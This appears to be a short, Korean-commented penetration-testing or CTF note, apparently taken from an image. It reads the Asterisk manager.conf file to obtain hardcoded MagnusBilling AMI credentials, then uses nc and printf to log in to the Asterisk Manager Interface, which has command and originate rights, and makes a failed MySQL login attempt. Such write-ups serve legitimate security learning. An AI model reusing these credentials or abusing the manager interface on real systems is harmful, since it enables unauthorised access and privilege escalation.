 cat /etc/asterisk/manager.conf
[general]
enabled = yes
port = 5038
bindaddr = 0.0.0.0

[magnus]
secret = magnussolution
permit = 127.0.0.1/255.255.255.0
read = system,call,log,verbose,agent,user,config,dtmf,reporting,cdr,dialplan
write = system,call,agent,user,config,command,reporting,originate

# id: magnus

# secret: magnussolution

# permit: (접근 허용 범위) 127.0.0.1

# Asterisk Call Manager를 통해 명령어 실행

nc 127.0.0.1 5038

# 하나하나 직접 입력하고 마지막에 엔터 두번 (마지막 한 줄 비우기)

Action: Login
Username: magnus
Secret: magnussolution

printf "Action: Login\r\nUsername: magnus\r\nSecret: magnussolution\r\n\r\n" | nc 127.0.0.1 5038

# \r → Carriage Return (CR, ASCII 13)

# \n → Line Feed (LF, ASCII 10)

# \r\n = CR + LF

# DB 접속 -> 실패

mysql -h 127.0.0.1 -P 3306 -u magnus -p

# 권한 조회
